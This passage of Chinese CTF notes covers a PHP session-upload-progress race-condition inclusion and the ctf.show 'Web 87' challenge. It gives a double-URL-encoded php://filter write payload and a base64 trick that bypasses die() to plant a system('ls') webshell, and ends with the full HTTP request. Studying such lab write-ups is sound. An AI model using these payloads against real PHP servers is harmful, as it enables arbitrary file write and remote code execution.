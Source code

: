 ```
session.upload_progress.name = "PHP_SESSION_UPLOAD_PROGRESS"
```
PHP will report the upload progress.

```
session.use_strict_mode = off
```
We can control the session ID in Cookies.

```
session.save_path = /var/lib/php/sessions
```
The file location of the session.

==But== there is another one configuration in file `php.ini`.
```
session.upload_progress.cleanup = on //表示当文件上传结束后，php将会立即清空对应session文件中的内容
```
Session文件内容立即清空，清空了就没办法利用了。
我们要想办法把session留在里面，所以就要利用条件竞争，在session文件内容清空前进行文件包含利用。


# Web 87

![[Pasted image 20241111182843.png]]
- 传过去的 `file` 参数经过了 `urldecode()` 函数解码。所以 `file` 参数的内容要经过 `url` 编码再传递。
- 同时网络传递时会对 URL 编码的内容解一次码，所以需要对内容进行两次 URL 编码。
	- `php://filter/write=convert.base64-decode/resource=123.php`两次 URL 编码。（服务器将会把解码的结果生成到 `123.php` 文件）![[Pasted image 20241111224114.png]]
- 另外，需要绕过 die() 函数。![[Pasted image 20241111213818.png]]
	- 为了让`die()`不执行，我们要用Base64编码，这样除了`phpdie`以外的剩下的字符都会被忽略掉，就执行不了了。
	- 前面的 `/?file` 参数用`php://filter/write=convert.base64-encode`来解码写入，这样文件`<?php die(''大佬别秀了); ?>`的`0 ~ 9，a ~ z，A ~ Z，+，/`以外的字符都被忽略掉， 这行 PHP 代码就会被 base64 过滤为==`phpdie`，并且加上两个字符`aa`会被当做Base64编码后的8字节乱码==，这样 `die()` 函数就绕过了。
- 后面再拼接 base64 编码后的一句话木马或者 `php` 代码`<?php system('ls');`，即`PD9waHAgc3lzdGVtKCdscycp==`。最后拼接成的Base64编码为：`phpdieaaPD9waHAgc3lzdGVtKCdscycp==`，而我们的`content`为`aaPD9waHAgc3lzdGVtKCdscycp==`这一部分。
- 后续被`php://filter/write=convert.base64-decode/resource=123.php`中的`base64-decode`解码后刚好可以执行。
	- `phpdieaaPD9waHAgc3lzdGVtKCdscycp`Base64解码发现有效代码只有`<?php system('ls');`：![[Pasted image 20241111232925.png]]
- 由于 base64 是$4$个一组，而 `phpdie` 只有六个，所以要加两个字母凑足base64的格式。
- 传参时，`file` 用 `get` 方法，`content` 用 `post` 方法。
![[Pasted image 20241111233405.png]]
直接再URL后面跟`/?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%33%32%25%33%33%25%32%65%25%37%30%25%36%38%25%37%30`

`PD9waHAgc3lzdGVtKCdscycpOw==`
把 GET 改成 POST
```
POST /?file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%33%31%25%33%32%25%33%33%25%32%65%25%37%30%25%36%38%25%37%30 HTTP/1.1
Host: 1c019d9a-1d23-40ad-9cec-fdd845daa275.challenge.ctf.show
Cache-Control: max-age=0
Sec-Ch-Ua: "Chromium";v="127", "Not)A;Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Accept-Language: zh-CN
Upgrade-Insecure-Requests: 1
```